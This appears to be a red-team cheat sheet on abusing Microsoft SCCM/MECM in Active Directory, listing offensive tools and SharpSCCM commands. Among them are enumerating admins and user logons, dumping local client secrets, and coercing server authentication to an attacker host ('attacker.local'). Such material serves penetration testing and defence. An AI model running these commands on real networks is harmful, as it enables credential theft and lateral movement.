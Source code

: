 ```yaml
---
description: System Center Configuration Manager / Microsoft Endpoint Configuration Manager
---
```


# SCCM Abuse

- [https://www.thehacker.recipes/ad/movement/sccm-mecm](https://www.thehacker.recipes/ad/movement/sccm-mecm)
- [https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- [https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts](https://www.hub.trimarcsecurity.com/post/push-comes-to-shove-exploring-the-attack-surface-of-sccm-client-push-accounts)
- [https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/](https://www.securesystems.de/blog/active-directory-spotlight-attacking-the-microsoft-configuration-manager/)
- [https://http418infosec.com/offensive-sccm-summary](https://http418infosec.com/offensive-sccm-summary)

{% embed url="https://github.com/subat0mik/Misconfiguration-Manager/blob/main/README.md#sccm-attack-matrix" caption="Misconfiguration Manager / SCCM Attack Matrix" %}




## Enumeration

Look for CcmExec.exe processes:

```
Cmd > tasklist | findstr CcmExec
```

Search for SCCM servers in LDAP:

```
PV3 > Get-DomainComputer -LDAPFilter "(&(objectClass=computer)(cn=*sccm*))" | select -ExpandProperty dnsHostName
PV3 > Get-DomainComputer | ? {$_.Name -like "*sccm*"} | select -ExpandProperty dnsHostName
```

## VNC-like Remote Control (CmRcViewer Abuse)

- [https://www.netero1010-securitylab.com/red-team/abuse-sccm-remote-control-as-native-vnc](https://www.netero1010-securitylab.com/red-team/abuse-sccm-remote-control-as-native-vnc)
- [https://github.com/netero1010/SCCMVNC](https://github.com/netero1010/SCCMVNC)




## Tools



### MalSCCM

- [https://labs.nettitude.com/blog/introducing-malsccm/](https://labs.nettitude.com/blog/introducing-malsccm/)
- [https://github.com/nettitude/MalSCCM](https://github.com/nettitude/MalSCCM)



### sccmwtf

- [https://blog.xpnsec.com/unobfuscating-network-access-accounts/](https://blog.xpnsec.com/unobfuscating-network-access-accounts/)
- [https://github.com/xpn/sccmwtf](https://github.com/xpn/sccmwtf)



### SharpSCCM

- [https://github.com/Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
- [https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/](https://www.guidepointsecurity.com/blog/sccm-exploitation-evading-defenses-and-moving-laterally-with-sccm-application-deployment/)

Get SMS (Systems Management Server) and SC (Site Code):

```
Cmd > SharpSCCM.exe local site-info
```

List SCCM admins:

```
Cmd > SharpSCCM.exe get admins -sms <SMS> -sc <SC>
```

List user latest logons:

```
Cmd > SharpSCCM.exe get class-instances -sms <SMS> -sc <SC> SMS_R_System -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -w "LastLogonUserName LIKE '%snovvcrash%'"
Cmd > SharpSCCM.exe get devices -p Name -p DistinguishedName -p IPAddresses -p LastLogonUserDomain -p LastLogonUserName -p LastLogonTimestamp -u snovvcrash@megacorp.local
```

Get resource (server) ID:

```
Cmd > SharpSCCM.exe get resource-id -sms <SMS> -sc <SC> -d <RESOURCE>
```

Execute WMI command on a resource:

```
Cmd > SharpSCCM.exe invoke admin-service -sms <SMS> -sc <SC> -q "EventLog('Security',4h) | where EventID == 4624 | order by DateTime desc" -r <ID>
```

Grab secrets from SCCM client (locally):

```
Cmd > SharpSCCM.exe local secrets -m disk
```

Coerce authentication from SCCM server (remotely):

```
Cmd > SharpSCCM.exe invoke client-push -t attacker.local
```
